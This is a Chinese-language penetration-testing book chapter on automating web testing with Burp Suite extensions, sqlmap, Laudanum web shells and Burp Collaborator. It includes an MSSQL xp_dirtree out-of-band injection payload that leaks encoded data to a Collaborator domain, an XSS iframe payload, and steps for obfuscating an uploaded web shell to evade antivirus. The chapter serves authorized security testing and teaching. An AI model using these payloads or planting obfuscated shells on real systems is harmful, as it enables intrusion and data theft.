


# 第七章 自动化测试

在本章中，我们将通过攻击代理使我们的工作变得更加轻松。通过开源插件扩展功能可以节省短期项目中的宝贵时间，并确保我们不会错过任何轻松的漏洞。总有一些领域可以自动化，从而使整个渗透测试过程更加高效。幸运的是，我们不需要从头开始编写一切，因为黑客社区几乎为任何自动化问题都提供了解决方案。

在前几章中，我们讨论了带外漏洞利用，在这里我们将通过使用 Burp 的云服务器来自动化这种类型的漏洞发现。我们还将讨论如何在云端或本地部署我们自己的 Burp Collaborator 服务器实例，以便在评估过程中获得更大的控制权。

本章将向你介绍一些有价值的工具，最终你应该能够：

+   扩展攻击代理以自动化繁琐的任务

+   配置 Burp 使用公共 Collaborator 实例

+   部署我们自己的 Collaborator 实例

# 扩展 Burp

Burp Suite 是一个出色的攻击代理，它开箱即用就提供了一些很棒的功能。如前几章所述，Intruder 是一个灵活的暴力破解工具，Repeater 允许我们检查和微调攻击，Decoder 简化了数据操作。Burp 的出色之处在于它可以通过社区开发和维护的扩展来扩展功能。Burp Suite 的创建者 PortSwigger 还维护了一个在线扩展目录，叫做 **BApp 商店**。BApp 商店可以通过 Burp Suite 中的 Extender 标签访问。


图 7.1：BApp 商店

使用扩展，我们可以被动地检查过时的库，定制构建 sqlmap 命令行，并快速检查身份验证或授权漏洞。

Burp 扩展通常使用 Java、Python 或 Ruby 编写。由于 Burp 是一个 Java 应用程序，Java 扩展可以直接开箱即用。对于用 Python 或 Ruby 编写的扩展，我们需要让 Burp Suite 指向 **Jython** 和 **JRuby** 接口。Python 和 Ruby 是非常强大的语言，有些人可能认为它们比 Java 更简单易用。BApp 商店主要是用 Java 和 Jython 编写的扩展，但偶尔也会有 JRuby 的需求。

**附加扫描器检查**，例如，是一个用 Python 编写的扩展。顾名思义，该扩展将增强 Burp 扫描器模块，增加一些额外的检查。然而，在我们安装它之前，Burp 会提示我们下载 Jython。这意味着 Extender 的 Python 环境尚未正确配置，这在新的 Burp Suite 安装中是很常见的。

我们可以在 BApp 商店找到附加扫描器检查，且 **安装** 按钮会被灰显。**BApp 商店** 页面向我们提供了下载 Jython 的选项。


图 7.2：Burp Suite BApp 商店页面，提供附加扫描器检查

设置 Burp 以支持 Jython 和 JRuby 的过程非常简单。两种库实现均以独立 JAR 文件的形式提供，可以直接加载到 Burp 中。

### 注意

Jython 可通过 [`www.jython.org/downloads.html`](http://www.jython.org/downloads.html) 作为独立 JAR 文件下载。

### 注意

JRuby 可通过 [`jruby.org/download`](http://jruby.org/download) 作为完整的 JAR 文件下载。

在 Extender 模块的 **选项** 标签中，我们可以指定刚刚下载的独立 Jython 和 JRuby JAR 文件：


图 7.3：配置 Jython 和 JRuby 环境

环境配置正确后，BApp 商店现在应该允许我们安装附加扫描器检查扩展。点击 **刷新列表** 按钮应能更新配置更改并启用 **安装** 按钮：


图 7.4：配置环境前提条件后启用安装按钮

## 身份验证和授权滥用

最繁琐的应用安全测试之一是身份验证或授权检查。验证此类漏洞的基本步骤大致如下：

1.  使用一个已知的有效账户进行身份验证

1.  捕获会话 ID

1.  使用该会话 ID 爬取应用程序

1.  打开一个新的应用程序会话

1.  使用一个单独的已知有效账户进行身份验证

1.  捕获会话 ID

1.  使用新的会话 ID 重播爬虫：

    +   检查垂直或水平提升漏洞

1.  匿名重播爬虫，不使用会话 ID：

    +   检查身份验证绕过问题

手动执行此操作有点像噩梦，且浪费宝贵时间。幸运的是，在 BApp 商店中，有一个扩展可以帮助自动化大部分操作，并在第 3 步早期警告我们任何潜在问题。

**Autorize** 将为我们完成繁重的工作，我们可以通过 Burp Suite 界面快速安装它。


图 7.5：BApp 商店中的 Autorize

简单来说，一旦配置完成，Autorize 将重播我们对应用程序发出的每个请求两次，并将响应与原始请求进行比较。

第一个重放的请求将包含第二个已知正常账户的会话 ID，而第二个重放的请求将是一个匿名请求。原始请求的响应应该成功，而另外两个请求应失败，提示一个独立的响应，可能是`403`，或者至少修改响应体以告知授权错误。Autorize 将查看这两个响应并根据情况发出警报。如果第一个重放请求的响应与原始请求的响应匹配，这意味着两个账户都能访问该页面。如果这是一个管理门户，并且只有一个账户是管理员，那么我们就发现了一个严重的授权问题。

Autorize 还可以帮助我们通过第二个重放请求发现更严重的漏洞，该请求删除了`Cookie`头，变成了一个匿名请求。如果这个请求的响应与原始请求的响应匹配，说明应用存在身份验证绕过问题。

### 授权（Autorize）流程

通过攻击代理发起一个新的请求：

1.  使用另一个会话 ID 替换`Cookie`头

1.  重放请求：

    +   响应是否与原始请求的响应匹配？警报[**已绕过！**]

1.  删除`Cookie`头

1.  重放请求：

    +   响应是否与原始请求的响应匹配？警报[**已绕过！**]

安装后，Autorize 必须配置正确的`Cookie`头，以便能够识别目标应用中的问题。

首先，我们需要捕获一个低权限用户的`Cookie`头和会话 ID。这可以通过打开一个新的浏览会话并查看服务器响应来捕获。我们将使用一个管理员账户浏览该应用。

在使用低权限账户登录后，我们可以从任何请求中获取会话值：

```
GET /admin/ HTTP/1.1
Host: panel.c2.spider.ml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://panel.c2.spider.ml/
**Cookie: PHPSESSID=g10ma5vjh4okjvu7apst81jk04**
Connection: close
Upgrade-Insecure-Requests: 1
```

最好抓取整个`Cookie`头，因为一些应用不仅使用一个 Cookie 来跟踪用户会话。

在**Autorize**标签中，我们可以在**配置**部分输入这个值：


图 7.6：授权（Autorize）标签和配置界面

最好修改 Autorize 的拦截过滤器，只针对我们目标应用进行操作。浏览器在正常的爬行会话期间可能会向外部或第三方应用发出数百个请求。我们不希望为超出范围的项目生成三倍的流量。

一旦我们点击启用按钮，Autorize 将开始重放请求：


图 7.7：Autorize Cookie 配置面板

一旦配置了`Cookie`值，我们就可以使用高权限用户账户对应用进行身份验证并浏览管理面板。所有后续请求将使用低权限和匿名会话进行测试。

通过点击管理面板，Autorize 能够检测到`/admin/submit.php`页面中的纵向权限提升。


图 7.8：Autorize 检测到一个问题

看起来虽然这个页面在管理员面板入口点被 `403` 错误隐藏，无法被普通用户访问，但它是可以直接访问的，并且只检查用户是否已登录，而不检查他们是否拥有管理员权限。

我们不需要辛苦地筛选我们发送的所有请求，修改会话 ID，并重新播放它们。Autorize 为我们做了这些，最终的结果是一个有趣的授权滥用漏洞。

## 瑞士军刀

你会经常遇到的一个常见任务是基于一些特定目标数据生成自定义词典。这会提高你的成功几率，但也有点乏味。可以用类似 Python 的脚本来完成，但为什么不直接在 Burp 中完成呢？

另一个常见任务是，我经常对应用中的特定 URL 发起 sqlmap 攻击。身份验证 SQL 注入攻击要求我们在命令行中发送会话 cookies，而对于 `POST` 请求，这会让构建 sqlmap 命令行变得繁琐。CO2 是一个 Burp Suite 插件，它为攻击代理提供了若干增强功能，能够与其他用户界面部分良好集成，并且可以在其他工具与 Burp 之间创建一个顺畅的工作流程。

我之前说过，作为渗透测试员和红队成员，我们知道时间不是我们和坏人共同拥有的奢侈品。参与的工作通常是时间敏感的，而且资源非常紧张。从 Burp 中复制并粘贴 `Cookie` 头到终端发起 sqlmap 攻击似乎没什么大不了，但积少成多。如果目标应用有多个潜在的 SQL 注入点怎么办？如果你正在测试三四个不同的应用，并且它们没有共享相同的登录凭证呢？自动化让生活更轻松，让我们更高效。

### 注意

CO2 插件可以从 BApp Store 或者 GitHub 下载，网址是 [`github.com/portswigger/co2`](https://github.com/portswigger/co2)。

安装 CO2 和其他 BApp Store 插件一样简单，它会在 Target、Proxy、Scanner 以及其他模块的上下文菜单中添加一些选项。通过 Burp 发出的许多请求可以直接发送到 CO2 的一些组件。这样做会自动填写大部分必需的参数，节省时间并减少人为错误的可能性。

### sqlmap 帮助器

CO2 在 Burp 用户界面中提供了一个 sqlmap 封装器，名为 **SQLMapper**。如果我们发现了潜在的注入点，或者可能是 Burp 的主动扫描器通知我们有 SQL 注入漏洞，我们可以通过上下文菜单将请求直接发送到 CO2 的 SQLMapper 组件：


图 7.9：从 CO2 发送请求到 SQLMapper 的上下文菜单

在 CO2 扩展选项卡中，SQLMapper 部分应该会自动填充从所选 URL 获取的一些值。

此时，我们可以配置组件，指向适当的 `sqlmap` 脚本和 `python` 可执行文件。

### 注意

Kali 发行版已经安装了相对较新的 sqlmap 版本，但最新的代码可以从 GitHub 克隆，地址是 [`github.com/sqlmapproject/sqlmap`](https://github.com/sqlmapproject/sqlmap)。

**配置** 按钮将允许我们将 CO2 指向正确的可执行文件，从用户界面执行 sqlmap。**运行** 按钮将启动一个新的终端，运行 sqlmap 并传递所有选项。


图 7.10：CO2 SQLMap 配置弹窗

在 Kali 上，sqlmap 工具位于 `/usr/bin` 文件夹中，并且没有 `.py` 扩展名。如果你正在使用 GitHub 仓库中的最新版本，可能需要指定完整路径。

首先，我们可以使用 `git clone` 命令从 GitHub 克隆最新的 sqlmap 代码：

```
**root@kali:~/tools# git clone https://github.com/sqlmapproject/sqlmap**
**Cloning into 'sqlmap'...**
**remote: Counting objects: 60295, done.**
**remote: Compressing objects: 100% (22/22), done.**
**remote: Total 60295 (delta 26), reused 33 (delta 22), pack-reused 60251**
**Receiving objects: 100% (60295/60295), 59.88 MiB | 14.63 MiB/s, done.**
**Resolving deltas: 100% (47012/47012), done.**

```

`sqlmap.py` 脚本将位于克隆的 `sqlmap` 目录中：

```
**root@kali:~/tools/sqlmap# ls -lah sqlmap.py**
**-rwxr-xr-x 1 root root 16K Jun 1 15:35 sqlmap.py**
**root@kali:~/tools/sqlmap#**

```

sqlmap 是一款功能强大的工具，拥有大量选项，可以修改从用户代理到注入技术，甚至是每个探针的攻击性级别。通常情况下，我们需要查阅工具文档以找到所需的开关，但借助 CO2 的 SQLMapper 插件，我们可以一目了然地找到需要的选项。

当我们选择适当的选项并填写空白时，CO2 会构建一个 sqlmap 命令，我们可以通过用户界面运行它，或者直接复制并在我们选择的终端中运行。


图 7.11：CO2 的 SQLMapper 插件

**运行** 按钮将启动一个新的终端窗口，并以选定的选项启动 sqlmap：



图 7.12：sqlmap 运行并使用已选择的选项

### 注意

sqlmap 将把每次攻击的会话保存在主目录下的文件夹中：`~/.sqlmap/output/[target]`

```
**root@kali:~/.sqlmap/output/c2.spider.ml**
**# tree**
**.**
**├── log**
**├── session.sqlite**
**└── target.txt**

**0 directories, 3 files**
**root@kali:~/.sqlmap/output**
**/c2.spider.ml#**

```

### Web Shells

CO2 瑞士军刀还提供了一个简单的方法，可以为多种服务器端语言生成 Web Shell。如果我们成功地将一个 Shell 上传到其中一台机器，我们就需要一个简单的、较为安全的 Shell 来提升权限，最终达到我们的目标。

引入 **Laudanum**，这是一个包含多种后端基本 Web Shell 的集合，支持 ASP、JSP、ASPX、Java 和 PHP。Laudanum 还允许我们指定一个随机连接令牌，并按 IP 限制访问。这些 Shell 允许远程代码执行，因此在建立更强大的反向 Shell 之前，保护它们是很有意义的。

在 CO2 的 Laudanum 组件中，我们可以指定希望设置的 Shell 类型、允许连接的 IP 地址，以及用于提供更多保护的随机化令牌。

生成 Shell 的过程很简单。首先，我们打开 CO2 中的 **Laudanum** 标签页，然后：

1.  选择 Shell 类型：

    +   在此场景中的 **PHP Shell**

1.  用逗号分隔的 IP 列表，不包含空格：

    +   `127.0.0.1,192.168.1.123`

1.  点击**生成新令牌**按钮获取一个随机的令牌值：


图 7.13：Laudanum CO2 插件

要将文件保存在磁盘上的某个位置，点击**生成文件**按钮。生成的 shell 内容将如下所示：


图 7.14：Laudanum shell 源代码

一旦上传到目标，访问 shell 时我们必须确保我们的外部 IP 与白名单中的一个 IP 匹配，并且每个请求还必须指定随机生成的令牌。

我们可以通过 `laudtoken` URL 参数传递此令牌，并通过 `laudcmd` 执行命令。这些参数的值也可以通过 `POST` 传递。

需要注意的是，即使 URL 中的令牌正确，来自未知 IP 的请求也会被 `404` 响应拒绝。

在这里，我们使用 PowerShell 的 `Invoke-WebRequest` 命令来测试来自 Windows 机器的简单 web 请求。由于请求不是来自已知的 IP（即我们在创建 shell 时指定的 IP），因此请求被拒绝。


图 7.15：来自未知 IP 的被拒绝的 shell 请求

我们的客户端会赞赏这些额外的安全检查；毕竟，我们的目的是发现漏洞，而不是引入新的漏洞。不言而喻，这并不是万无一失的；这个文件应该像我们丢在目标上的任何其他痕迹一样，在清理时被清除。

通过正确的外部 IP 和令牌，我们可以使用 Burp Suite 的 Repeater 模块控制 shell。

要发出请求，我们可以填写最小的 `GET` 请求头，如下截图所示。我们需要配置的是**目标**，在**Repeater**标签的右上角；通过 `GET` 请求的 URL；以及 `laudtoken` 和 `laudcmd` 的值。


图 7.16：成功访问受保护的 Laudanum shell

# 混淆代码

在前一节中由 CO2 生成的 Laudanum shell 工作得非常好，但如果防守者稍微仔细查看源代码，肯定会引起一些警觉。理想情况下，我们希望保持文件大小尽可能小，并且尽量让代码更难分析。注释、正确缩进的代码以及描述性的变量名使得弄清楚 `ads.php` 实际做什么变得轻而易举。

让我们让分析变得更加复杂。代码混淆器通常用于数字版权管理软件、反盗版模块，以及当然，恶意软件。虽然没有任何代码混淆器能阻止经验丰富的逆向工程师，但它确实会减缓进程；也许足够长的时间让我们转移到另一台服务器或应用程序，但至少足够长的时间来躲避病毒扫描的特征码。理想情况下，我们删除注释，重命名变量，并尽量隐藏 shell 的实际功能，但手动进行这些操作并不明智。人为错误可能引入代码问题，混淆反而可能导致更多的问题。

混淆器将应用程序（或在我们的例子中，Web shell）的源代码转换为紧凑的代码块，去除注释，变量名称随机，使得分析变得困难。这样做的好处是，即使代码被混淆且难以被人类理解，只要语法正确，解析器或编译器并不在乎。应用程序应该可以正常运行混淆后的代码。

几乎每种编程语言都有相应的源代码混淆器。为了混淆 PHP，我们可以使用 naneau 的绝妙应用 PHP Obfuscator，这是一个易于使用的命令行工具。

### 注意

PHP Obfuscator 可以从 [`github.com/naneau/php-obfuscator`](https://github.com/naneau/php-obfuscator) 克隆。

我们将把应用程序存储在`~/tools/phpobfs`目录中，并通过`git clone`从 GitHub 克隆它：

```
**root@kali:~/tools# git clone https://github.com/naneau/php-obfuscator phpobfs**
**Cloning into 'phpobfs'...**
**[...]**
**root@kali:~/tools#**

```

PHP 混淆器需要 composer，可以通过在 Kali 或类似的发行版上使用`apt-get install`快速安装：

```
**root@kali:~/tools/# apt-get install composer**
**[...]**
**root@kali:~/tools/#**

```

在新克隆的`phpobfs`目录中，我们可以发出`composer install`命令来在`bin`文件夹中生成一个`obfuscate`工具：

```
**root@kali:~/tools/phpobfs# composer install**
**Do not run Composer as root/super user! See https://getcomposer.org/root for details**
**Loading composer repositories with package information**
**Updating dependencies (including require-dev)**
**[...]**
**Writing lock file**
**Generating autoload files**
**root@kali:~/tools/phpobfs#**

```

如果一切运行成功，我们应该会在`bin`文件夹中得到一个可执行脚本`obfuscate`，我们可以用它来混淆我们的 Laudanum shell。

我们可以使用带有`obfuscate`参数的`obfuscate`工具，并传入要混淆的文件以及输出目录：

```
**root@kali:~/tools/phpobfs# bin/obfuscate obfuscate ~/tools/shells/ads.php ~/tools/shells/out/**
**Copying input directory /root/tools/shells/ads.php to /root/tools/shells/out/**
**Obfuscating ads.php**
**root@kali:~/tools/phpobfs#**

```

如果我们检查新混淆后的`ads.php`文件，现在我们看到的是这块混乱的代码：


图 7.17：混淆后的 Laudanum shell

一些字符串仍然可见，我们可以看到 IP 和令牌值仍然完好无损。变量被更改为非描述性的随机单词，注释被去除，结果非常紧凑。两个 shell 之间的大小差异也很明显：

```
**root@kali:~/tools/shells# ls -lah ads.php out/ads.php**
**-rw-r--r-- 1 root root 5.2K 14:14** 
**ads.php**
**-rw-r--r-- 1 root root 1.9K 14:14 out/ads.php**
**root@kali:~/tools/shells#**

```

它不是万无一失的，但应该能让我们在雷达下飞得更久。PHP Obfuscate 应该适用于所有 PHP 代码，包括你可能自己编写的 shell。

# Burp Collaborator

在上一章中，我们研究了如何发现应用程序中不易被攻击者察觉的隐蔽漏洞。如果应用程序在我们输入意外数据时没有反应，可能是因为它没有漏洞且代码正确地验证了输入，但也可能意味着存在漏洞，只是它被隐藏了。为了识别这类漏洞，我们传入一个有效载荷，强制应用程序连接回我们的 C2 服务器。

这是一种非常有用的技术，但过程是手动的。我们传入自定义的有效载荷，并等待服务器的回传，以确认漏洞的存在。大多数应用程序评估是有限时的，在一个庞大的攻击面上手动检查每个输入是不现实的。我们必须自动化这个过程。

幸运的是，Burp Suite 的专业版允许我们使用 Collaborator 服务器基础设施来帮助自动化发现离带外漏洞。

### 注意

免费版不支持 Collaborator；然而，第六章，*离带外利用*，描述了该过程以及如何构建一个可以用于相同目的的 C2 基础设施。

Collaborator 服务器类似于我们在 第六章，*离带外利用*，中设置的 C2 服务器，但有一些额外的功能。特别是，它与 Burp 的扫描模块集成，能自动检查这些难以发现的漏洞。与更手动的方法相比，它也更不容易出现误报。

Collaborator 设置可以在 **项目选项** 标签下找到，可以禁用或启用以使用默认服务器或私有实例。

高级别上，Collaborator 工作方式如下：

1.  Burp 扫描器生成了一个有效载荷来检测 SQL 注入：

    ```
    ';declare @q varchar(99);set **@q='\\bXkgY3JlZGl0IGNhcmQgbnVtYmVyIGlz.burpcollaborator.net\test'**; exec master.dbo.xp_dirtree **@q**;--
    ```

1.  应用程序异步执行 SQL 查询

1.  SQL 注入成功

1.  SQL 服务器尝试列出随机生成的 `burpcollaborator.net` 域上的 SMB 共享

1.  执行了 DNS 查找：

    +   Collaborator 服务器记录了这个 DNS 请求尝试

1.  成功建立 SMB 连接并返回虚拟数据：

    +   Collaborator 服务器也记录了这个 SMB 连接尝试

1.  Burp 客户端与 Collaborator 服务器进行通信

1.  Collaborator 服务器报告了两个问题：

    +   发出了一个离带外的 DNS 请求

    +   观察到一个离带外的 SMB 服务交互

Collaborator 的优势在于，随机生成的唯一域名实际上可以与扫描器发出的特定请求关联。这能准确地告诉我们哪个 URL 和哪个参数易受 SQL 注入攻击。

## 公共 Collaborator 服务器

默认的 Collaborator 服务器是由 Burp Suite 开发者 PortSwigger 操作的实例。它位于 [burpcollaborator.net](http://burpcollaborator.net)，并且 Burp 中内置了支持。

正如你所预期的那样，默认的 Collaborator 实例可以被所有拥有 Burp 专业版副本的用户访问，资源在所有用户之间共享。从隐私角度看，用户无法看到彼此的 Collaborator 请求。每个有效载荷都是唯一的，由 Burp Suite 为每个请求单独生成。通信是加密的，且需要一个唯一的、每个用户专属的密钥才能从服务器中检索任何数据。

### 注意

Burp Collaborator 采取了几个步骤以确保数据的安全。你可以在 [`portswigger.net/burp/help/collaborator`](https://portswigger.net/burp/help/collaborator) 上阅读更多关于整个过程的内容。

要启用 Collaborator，我们可以进入**项目选项**下的**Misc**标签，选择**使用默认 Collaborator 服务器**单选按钮，如下所示：


图 7.18：配置 Burp Collaborator 服务器

要使用公共服务器，不需要更多的信息。我们可以通过点击配置页面上的**运行健康检查...**按钮，来发起一次健康检查，看看 Burp Suite 客户端是否可以连接到该服务器，开始测试之前。一个新窗口将弹出并显示正在进行的健康检查，每个检查的状态如下所示：


图 7.19：Burp Collaborator 健康检查

如果你的网络环境是由仍然阻止垃圾邮件机器人使用的端口进行外发连接的 ISP 提供的，SMTP 连接问题是很常见的。你的目标可能并不在国内的 ISP 上，这类限制可能并不存在，至少在 ISP 层级上是如此。外发过滤可能会阻碍带外发现，在这种情况下，局域网上的私有实例就派上用场了。我们将在本章后面讨论如何部署一个私有 Collaborator 服务器。

### 服务交互

要查看 Collaborator 的实际操作，我们可以将 Burp Active Scanner 指向一个易受攻击的应用程序，并等待它执行生成的某个有效载荷，并进行回连至公共 Collaborator 服务器 [burpcollaborator.net](http://burpcollaborator.net)。

### 注意

**Damn Vulnerable Web Application** 是测试 Collaborator 的一个很好的平台：[`www.dvwa.co.uk/`](http://www.dvwa.co.uk/)。


图 7.20：Collaborator 检测到的带外漏洞

Burp Suite 客户端将定期与 Collaborator 服务器通信，询问是否有任何已记录的连接。在前面的例子中，我们可以看到，受命令注入漏洞影响的应用程序，通过对一个独特域名执行 DNS 查找，被诱骗连接到 Collaborator 云实例。

Collaborator 服务器拦截了来自漏洞应用程序的 DNS 请求，记录了它，并通知了我们。我们的 Burp Suite 客户端将 Collaborator 报告的服务交互与一个特定请求关联，并突出显示，方便我们查看。

所有这些都是在后台自动完成的。有了 Collaborator 的帮助，我们可以覆盖大范围的攻击面，并快速高效地找到一些难以察觉的漏洞。

### Burp Collaborator 客户端

在某些情况下，依赖 Burp 的主动扫描器发现这些问题可能不足够。假设我们怀疑目标应用程序的某个组件容易受到盲注或存储型 XSS 攻击。

为了触发漏洞利用，它必须被包装在某种编码或加密格式中，并传递给应用程序，稍后进行解码、解密并执行。Burp 的主动扫描器无法确认这个漏洞，因为它不了解有效载荷交付的自定义要求。

好消息是，我们仍然可以利用 Collaborator 来帮助我们识别应用程序中这些难以触及区域的漏洞。Burp Suite 还捆绑了 Collaborator 客户端，它可以生成多个用于自定义 Intruder 攻击的唯一域名。

可以从 Burp 菜单启动 Collaborator 客户端：


图 7.21：从 Burp 菜单启动 Collaborator 客户端

要生成用于自定义有效载荷的唯一域名，输入所需的数量并点击 **复制到剪贴板**。Burp 会将这些域名按换行符分隔，添加到剪贴板，以供后续处理。

### 注意

一旦你关闭 Collaborator 客户端窗口，生成的域名将失效，你可能无法检测到带外服务交互。


图 7.22：Burp Collaborator 客户端窗口

我们可以获取其中一个域名并将其提供给我们的自定义攻击。应用程序接受该请求，但没有返回任何数据。我们的有效载荷是一个简单的 XSS 有效载荷，旨在创建一个 `iframe`，该 `iframe` 导航到由 Collaborator 客户端生成的域名。

```
"><iframe%20src=[collaborator-domain]/>
```

如果应用程序存在漏洞，这个漏洞利用将生成一个新的 HTML `iframe`，它会连接回我们控制的服务器，从而确认漏洞的存在。


图 7.23：在 XSS 有效载荷中提交 Collaborator 域名

我们希望这个有效载荷在某个时刻被执行，或许是在管理员访问负责处理这些请求的页面时。如果应用程序存在漏洞，`iframe` 将尝试导航到注入的 URL。

这会产生以下副作用：

+   向 `src` 域发送 DNS 请求

+   向与 `src` 域关联的 IP 发送 HTTP 请求

默认情况下，Collaborator 客户端每 60 秒轮询一次服务器，但也可以在任何时候强制检查。如果受害者触发了漏洞利用，Collaborator 会通知我们：


图 7.24：Collaborator 客户端显示服务交互

看起来有效载荷已成功执行，在 Collaborator 的帮助下，我们现在有了证据。

## 私人 Collaborator 服务器

运行我们自己的 Collaborator 实例有很多好处。私人实例对于目标无法访问互联网的测试非常有用，或者对于极度谨慎的客户来说，选择将第三方排除在外也是一种理想选择。

另外，关于隐蔽性也有必要提及：向 [burpcollaborator.net](http://burpcollaborator.net) 域发出的外向连接可能会引起注意。对于某些任务，使用一个不那么显眼的域可能会更合适。我意识到我们即将为私人实例使用的域 `c2.spider.ml` 也不是特别理想，但为了演示的方便，我们就使用它吧。

Collaborator 服务器有很多与我们在前一章节中设置的 C2 服务器相同的要求。唯一的区别是 Burp 服务器将自行运行 DNS、HTTP 和 SMTP 服务，因此我们不需要 INetSim。

我们已经将 `c2.spider.ml` 的控制权委托给我们的云实例，Collaborator 服务器将在该实例上运行。DNS 服务应该能够响应任何属于 `c2.spider.ml` 子域的传入 DNS 请求。

### 注意

Collaborator 可能有些耗费内存，微型云实例可能不足以进行生产部署。

### 注意

第一次运行 Collaborator 服务器时，它会提示你输入许可证以进行激活。此值存储在 `~/.java/.userPrefs/burp/prefs.xml` 中，因此确保此文件已得到妥善保护，且不可公开读取。

Collaborator 服务器实际上是内置在 Burp Suite 攻击代理中的。我们可以复制 Burp Suite Professional JAR 文件，并通过命令行使用 `--collaborator-server` 开关启动它：

```
root@spider-c2-1:~/collab# java -jar Burp Suite_pro.jar --collaborator-server
[...]
This version of Burp requires a license key. To continue, please paste your license key below.
**VGhlcmUgYXJlIHRoZXNlIHR3byB5b3VuZyBmaXNoIHN3aW1taW5nIGFsb25nLCBhbmQgdGhleSBoYXBwZW4gdG8gbWVldCBhbiBvbGRlciBmaXNoIHN3aW1taW5nIHRoZSBvdGhlciB3YXksIHdobyBub2RzIGF0IHRoZW0gYW5kIHNheXMsICJNb3JuaW5nLCBib3lzLCBob3cncyB0aGUgd2F0ZXI/IiBBbmQgdGhlIHR3byB5b3VuZyBmaXNoIHN3aW0gb24gZm9yIGEgYml0LCBhbmQgdGhlbiBldmVudHVhbGx5IG9uZSBvZiB0aGVtIGxvb2tzIG92ZXIgYXQgdGhlIG90aGVyIGFuZCBnb2VzLCAiV2hhdCB0aGUgaGVsbCBpcyB3YXRlcj8i**

Burp will now attempt to contact the license server and activate your license. This will require Internet access.
NOTE: license activations are monitored. If you perform too many activations, further activations for this license may be prevented.

Enter preferred activation method (o=online activation; m=manual activation; r=re-enter license key)
o

Your license is successfully installed and activated.
```

此时，Collaborator 服务器正在使用默认配置运行。我们需要指定一些自定义选项，以便充分利用私人实例。配置文件是一个简单的 JSON 格式文本文件，包含几个选项来指定监听端口、DNS 权威区域和 SSL 配置选项。我们可以将该文件创建在磁盘上的任何位置，并稍后引用它。

```
root@spider-c2-1:~/collab# cat config.json
{
  "serverDomain": **"c2.spider.ml",**
  "ssl": {
    "hostname": **"c2.spider.ml"**
  },
  "eventCapture": {
    "publicAddress" : **"35.196.100.89"**
  },
  "polling" : {
    "publicAddress" : **"35.196.100.89",**
    "ssl": {
      "hostname" : **"polling.c2.spider.ml"**
    }
  },
  "dns": {
    "interfaces": [{
      "localAddress": "0.0.0.0",
      "publicAddress": **"35.196.100.89"**
    }]
  },
  "logLevel": "DEBUG"
}
```

你会注意到我们必须指定将使用的域名以及我们的公共 IP 地址。日志级别设置为 `DEBUG`，直到我们确认服务器正常运行。

```
**root@spider-c2-1:~/collab# java -jar Burp Suite_pro.jar --collaborator-server --collaborator-config=config.json**
**[...] : Using configuration file config.json**
**[...] : Listening for DNS on 0.0.0.0:53**
**[...] : Listening for SMTP on 25**
**[...] : Listening for HTTP on 80**
**[...] : Listening for SMTP on 587**
**[...] : Listening for HTTPS on 443**
**[...] : Listening for SMTPS on 465**

```

### 注意

最好对这些端口的传入流量进行过滤，并仅将你和目标的外部 IP 地址列入白名单。

现在服务器已经上线，我们可以修改 **项目选项**，并指向我们的私人服务器 `c2.spider.ml`。


图 7.25：私人 Collaborator 服务器配置

使用 **运行健康检查…** 按钮，我们应该能够强制与新 Collaborator 服务器进行一些交互：



图 7.26：Burp Collaborator 健康检查

服务器控制台日志将反映我们的连接尝试：

```
root@spider-c2-1:~/collab# java -jar Burp Suite_pro.jar --collaborator-server --collaborator-config=config.json
[...] : Using configuration file config.json
[...] : Listening for DNS on 0.0.0.0:53
[...] : Listening for SMTP on 25
[...] : Listening for HTTP on 80
[...] : Listening for SMTP on 587
[...] : Listening for HTTPS on 443
[...] : Listening for SMTPS on 465

**[...] : Received DNS** query from [74.125.19.6] for **[t0u55lee1aba8o6jwbm4kkgfm6sj62qkunj.c2.spider.ml]** containing interaction IDs: **t0u55lee1aba8o6jwbm4kkgfm6sj62qkunj**
[...] : Received **HTTP** request from [173.239.208.17] for [/] containing interaction IDs: t0u55lee1aba8o6jwbm4kkgfm6sj62qkunj
[...] : Received **HTTPS** request from [173.239.208.17] for [/] containing interaction IDs: t0u55lee1aba8o6jwbm4kkgfm6sj62qkunj
```

SMTP 和 SMTPS 检查可能会因为你的 ISP 防火墙而失败，但企业客户应该能够访问。重要的部分是 DNS 配置。如果目标能够解析 `c2.spider.ml` 的随机生成子域名，那么如果没有其他出站过滤，他们应该能够建立外向连接。

你还会注意到强制的 HTTPS 连接也失败了。这是因为默认情况下，Collaborator 使用自签名的通配符证书来处理加密的 HTTP 连接。

